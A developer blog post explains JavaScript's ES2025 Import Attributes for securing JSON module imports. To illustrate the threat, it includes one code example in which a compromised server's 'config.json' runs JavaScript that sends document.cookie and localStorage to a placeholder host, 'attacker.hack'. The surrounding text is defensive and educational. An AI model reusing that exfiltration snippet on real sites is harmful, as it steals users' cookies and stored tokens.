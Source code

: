 ```yaml
---
title: "What's new in JavaScript ES2025: Import Attributes"
description: A new way to make module imports more secure.
date: 2024-11-22T21:33:25.684Z
update: 2025-01-22T21:13:59.142Z
hero: ./js-es2025.svg
heroAlt: JavaScript ES2025
og: ./js-es2025.png
tags:
  - Programming
  - JavaScript
  - ES2025
  - JSON
sources:
  - title: JavaScript Import Attributes (ES2025) - Trevor I. Lasn
    href: https://www.trevorlasn.com/blog/import-attributes-in-javascript
  - title: Import Attributes - TC39
    href: https://tc39.es/proposal-import-attributes/
  - title: Import Attributes - TC39 (GitHub)
    href: https://github.com/tc39/proposal-import-attributes
themeColor: "#f0db4f"
---
```


<BaselineStatus id="json-modules" />

JavaScript now includes **Import Attributes**, a feature that lets you explicitly declare what kind of module you're importing. This addition brings enhanced security and clarity to module imports, particularly for JSON and other non-JavaScript modules.

## ❌ The Problem with File Extensions

When importing modules on the web, we can't reliably use file extensions to determine module types. A server might send JavaScript code even when requesting a file with a `.json` extension, potentially creating security risks:

```js title="main.js"
import config from './config.json';
```

What you expect to get:

```json title="config.json"
{
  "accessToken": "secret-key",
  "refreshToken": "secret-key",
  "expiresAt": "2125-01-21T21:35:34.607Z"
}
```

What a compromised server could send instead:

```js title="config.json"
export default (function () {
  // Send your API keys to an attacker
  fetch('https://attacker.hack', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: window.localStorage
    })
  });

  // Then return what looks like normal config
  return {
    accessToken: 'secret-key',
    refreshToken: 'secret-key',
    expiresAt: "2125-01-21T21:35:34.607Z"
  }
})();
```

## 💡 The Solution: Import Attributes

Import Attributes let you explicitly declare what type of module you expect, creating a contract that JavaScript environments must enforce:

```diff title="main.js"
- // WITHOUT Import Attributes - potentially unsafe
- import config from './config.json';
+ // WITH Import Attributes - safe JSON import
+ import config from './config.json' with { type: 'json' };
```

## 💭 Where you can use Import Attributes?

The syntax works consistently across different import scenarios:

```js
// Regular imports
import config from './config.json' with { type: 'json' };

// Dynamic imports work too
const config = await import('./config.json', { 
  with: { type: 'json' } 
});

// Re-exports
export { apiKey } from './config.json' with { type: 'json' };

// Specify JavaScript module
import module from './module.js' with { type: 'javascript' };

// Web Workers
new Worker('worker.wasm', {
  type: 'module',
  with: { type: "webassembly" }
});
```

## 📌 Key Benefits

- **Security**: When importing JSON modules, the `type: "json"` attribute guarantees you'll receive either JSON data or an error - never executable code.
- **Consistency**: Provides a standard way to handle different module types across all JavaScript environments.
- **Extensibility**: While JSON modules are the first use case, the syntax is designed to support future module types and additional metadata attributes.
- **Cache Control**: Hosts can use attributes as part of their module caching strategy, with the behavior defined by each environment.

## ⚙️ Practical Applications

- **JSON Modules**: The core use case of import attributes is to reliably load JSON modules. By specifying `type: "json"` you guarantee that the server delivers data as JSON, not potentially malicious code.
- **Dynamic Imports**:  Import attributes allow using dynamic imports (`await import()`) and control over module type, making them more flexible for various use cases.

## 🔮 The Future of Import Attributes

Import attributes are a crucial step towards a safer and more predictable JavaScript ecosystem. They're expected to become part of ES2025 and will likely be essential for web development in the coming years.
